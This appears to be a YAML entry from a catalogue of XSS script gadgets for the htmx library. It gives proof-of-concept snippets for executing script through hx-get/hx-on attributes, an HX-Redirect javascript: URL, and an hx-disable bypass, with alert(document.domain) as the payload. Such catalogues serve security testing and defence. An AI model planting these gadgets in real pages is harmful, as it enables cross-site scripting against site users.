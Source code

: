 ```yaml
---
description: htmx allows you to access [AJAX](https://htmx.org/docs/#ajax), [CSS Transitions](https://htmx.org/docs/#css), [WebSockets](https://htmx.org/docs/#websockets) and [Server Sent Events](https://htmx.org/extensions/sse/) directly in HTML, using attributes, so you can build modern user interfaces with the simplicity and power of hypertext.
github: bigskysoftware/htmx
gadgets:
  Latest (1):
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - custom-attr
      - before-lib-load
      - before-func-call
      - func-call-parameter
    pocs:
      - description: |
          The [htmx](https://github.com/bigskysoftware/htmx) library allows to perform HTTP requests and update the DOM using attributes. The following ones can be used to update the HTTP request `method`:
          - [data-hx-get](https://htmx.org/attributes/hx-get/)
          - [data-hx-post](https://htmx.org/attributes/hx-post/)
          - [data-hx-put](https://htmx.org/attributes/hx-put/)
          - [data-hx-delete](https://htmx.org/attributes/hx-delete/)
          - [data-hx-patch](https://htmx.org/attributes/hx-patch/)

          By default, it then inserts the response into the DOM using `.innerHTML` (no matter the response `Content-Type`) which is the default [hx-swap](https://htmx.org/attributes/hx-swap/) (`data-hx-swap`) value.

          There is many other attributes that can be used with it:
          - [data-hx-headers](https://htmx.org/attributes/hx-headers/)
          - [data-hx-target](https://htmx.org/attributes/hx-target/)
          - [data-hx-trigger](https://htmx.org/attributes/hx-trigger/)
          - ...

          *The full list can be found [here](https://htmx.org/reference/).*
        code: |
          <script src="https://cdn.jsdelivr.net/npm/htmx.org@2.0.6/dist/htmx.min.js"></script>

          <!-- user input -->
          <div data-hx-get="[current-location]/assets/xss/index.js" data-hx-trigger="load">Click Me</div>
      - description: All the `data-*` attributes can be replaced with their `hx-` equivalent.
        code: |
          <script src="https://cdn.jsdelivr.net/npm/htmx.org@2.0.6/dist/htmx.min.js"></script>

          <!-- user input -->
          <div hx-get="[current-location]/assets/xss/index.js" hx-trigger="load"></div>
      - description: |
          By default, htmlx only parse `data-*`, and `hx-*` attributes when the library is loaded. The only way to parse them with "delay" is using:
          - [htmx.process](https://htmx.org/api/#process): reload the targeted element or the full document if none provided.
          - [htmx.swap](https://htmx.org/api/#swap): parse and insert HTML into the DOM.
        code: |
          <script src="https://cdn.jsdelivr.net/npm/htmx.org@2.0.6/dist/htmx.min.js"></script>

          <script>
            setTimeout(function () {
              document.body.innerHTML = `<div hx-get="[current-location]/assets/xss/index.js" hx-trigger="load"></div>`;
              htmx.process(document.body);
            }, 1000);

            setTimeout(function () {
              htmx.swap(document.body, `<div hx-get="[current-location]/assets/xss/index.js" hx-trigger="load"></div>`, "innerHTML");
            }, 2000);
          </script>
    links:
      - https://htmx.org/docs/
      - https://htmx.org/reference/
  Latest (2):
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - custom-attr
      - unsafe-eval-csp
      - before-lib-load
      - before-func-call
      - func-call-parameter
    pocs:
      - description: |
          The htmlx library uses `data-hx-*` attributes to define events.

          *Check [#Latest (1)](#Latest%20(1)) to see how could this be exploited after the library is loaded.*
        code: |
          <script nonce="secret" src="https://unpkg.com/htmx.org@2.0.6"></script>

          <!-- user input -->
          <img src="x" data-hx-on-error="alert(document.domain)">
      - description: It is also possible to use `data-hx:` prefix.
        code: |
          <script nonce="secret" src="https://unpkg.com/htmx.org@2.0.6"></script>

          <!-- user input -->
          <div data-hx-on:click="alert(document.domain)">Click Me</div>
      - description: Or even with the `hx-` prefix.
        code: |
          <script nonce="secret" src="https://unpkg.com/htmx.org@2.0.6"></script>

          <!-- user input -->
          <img src="x" hx-on-error="alert(document.domain)">
    links:
      - https://htmx.org/attributes/hx-on/
  Latest (3):
    authors:
      - twitter:avlidienbrunn
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - custom-attr
      - unsafe-eval-csp
      - before-lib-load
      - before-func-call
      - func-call-parameter
    pocs:
      - description: |
          The `HX-Redirect` response header can be used to specify a URL to redirect to. Setting it to `javascript:alert(1)` triggers an XSS.

          *Check [#Latest (1)](#Latest%20(1)) to see how could this be exploited after the library is loaded.*
        code: |
          <div hx-get="/endpoint-with-HX-Redirect-header" hx-trigger="load"></div>
        preview: false
    links:
      - https://htmx.org/headers/hx-redirect/
      - https://blog.criticalthinkingpodcast.io/p/0-days-htmx-ss-with-mathias
  ≤2.0.0-beta3:
    authors:
      - twitter:avlidienbrunn
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - custom-attr
      - unsafe-eval-csp
      - before-lib-load
      - before-func-call
      - func-call-parameter
    pocs:
      - description: |
          It was possible to bypass the `hx-disable` context using `hx-on-*` attributes.

          *Check [#Latest (1)](#Latest%20(1)) to see how could this be exploited after the library is loaded.*
        code: |
          <script nonce="secret" src="https://unpkg.com/htmx.org@2.0.0-beta3"></script>

          <div hx-disable>
            <!-- user input -->
            <img src="x" data-hx-on-error="alert(document.domain)">
          </div>
    links:
      - https://htmx.org/attributes/hx-disable/
      - https://blog.criticalthinkingpodcast.io/p/0-days-htmx-ss-with-mathias
---
```

